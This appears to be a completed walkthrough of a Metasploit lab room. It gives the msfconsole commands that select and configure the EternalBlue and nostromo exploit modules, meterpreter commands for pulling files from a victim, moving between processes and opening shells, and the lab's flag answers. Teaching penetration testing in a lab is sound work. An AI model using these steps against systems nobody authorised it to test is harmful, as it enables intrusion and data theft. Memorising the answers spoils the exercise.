 # Intro 
Metasploit is one of the most popular penetration testing frameworks around. It contains a large database of almost every major CVE, which you can easily use against a machine. The aim of this section is to go through some of the major features of metasploit, and at the end there will be a machine that you will need to exploit.
# Setting Up 
Once you have installed metasploit through either the installer or your distributions repos, you will have many new commands available to you. This section will primarily focus on the msfconsole command.

Running that command will present you with an "msf5" prompt which will allow you to enter commands. All tasks can be answered with use of the "help" command.

![meta1](https://user-images.githubusercontent.com/94765997/179359869-6eafe42f-d1f6-4d11-af92-87ce99560231.png)


- [ ] What command allows you to search modules?

		search
- [ ] How do you select a module?    

		use
- [ ] How do you display information about a specific module?

		info
- [ ] How do you list options that you can set?

		options
- [ ] What command lets you view advanced options for a specific module?    

		advanced
- [ ] How do you show options in a specific category

		show
# Selecting a module 
 Once you have found the module for the specific machine that you want to exploit, you need to select it and set the proper options. This task will take you through selecting and setting options for one of the most popular metasploit modules "eternalblue". All basic commands that could be run before selecting a module can also be done while a module is selected.
	
		search eternalblue
		
![meta2](https://user-images.githubusercontent.com/94765997/179359900-7b98c2d4-1774-43ff-80ab-13cc8c5ffcf8.png)


- [ ] How do you select the eternalblue module?

		use exploit/windows/smb/ms17_010_eternalblue
		
![meta3](https://user-images.githubusercontent.com/94765997/179359924-545e1882-418c-4fb6-b042-36431316e811.png)

- [ ] What option allows you to select the target host(s)?

		RHOSTS
- [ ] How do you set the target port?

		RPORT
- [ ] What command allows you to set options?
		set
- [ ] How would you set SMBPass to "username"?
		set SMBPass username
- [ ] How would you set the SMBUser to "password"?

		set SMBUser password
- [ ] What option sets the architecture to be exploited?

		arch
- [ ] What option sets the payload to be sent to the target machine?

		payload
- [ ] Once you've finished setting all the required options, how do you run the exploit?
		
		
		exploit
- [ ] What flag do you set if you want the exploit to run in the background?

		-j
- [ ] How do you list all current sessions?

		sessions
- [ ] What flag allows you to go into interactive mode with a session("drops you either into a meterpreter or regular shell")

		-i
		
![meta4](https://user-images.githubusercontent.com/94765997/179359943-efef653d-1651-4759-8717-783abe08ad53.png)

# meterpreter


Once you've run the exploit, ideally it will give you one of two things, a regular command shell or a meterpreter shell. Meterpreter is metasploits own "control center" where you can do various things to interact with the machine. A list of common meterpreter commands and their uses can be found here


- [ ] What command allows you to download files from the machine?

		download
- [ ] What command allows you to upload files to the machine?

		upload
- [ ] How do you list all running processes?

		ps
- [ ] How do you change processes on the victim host(Ideally it will allow you to change users and gain the perms associated with that user)

		migrate
- [ ] What command lists files in the current directory on the remote machine?
		ls
- [ ] How do you execute a command on the remote host?

		execute
- [ ] What command starts an interactive shell on the remote host?

		shell
- [ ] How do you find files on the target host(Similar function to the linux command "find")

		search
- [ ] How do you get the output of a file on the remote host?

		cat
- [ ] How do you put a meterpreter shell into "background mode"(allows you to run other msf modules while also keeping the meterpreter shell as a session)?

		background
# Final Walkthrough

![meta5](https://user-images.githubusercontent.com/94765997/179359976-e05489f7-1c24-467c-8310-508138b9c947.png)


- [ ] Select the module that needs to be exploited

		use exploit/multi/http/nostromo_code_exec
- [ ] What variable do you need to set, to select the remote host

		RHOSTS
- [ ] How do you set the port to 80

		set RPORT 80
- [ ] How do you set listening address(Your machine)

		LHOST

- [ ] What is the name of the secret directory in the /var/nostromo/htdocs directory?

		s3cretd1r
- [ ] What are the contents of the file inside of the directory?

		Woohoo!
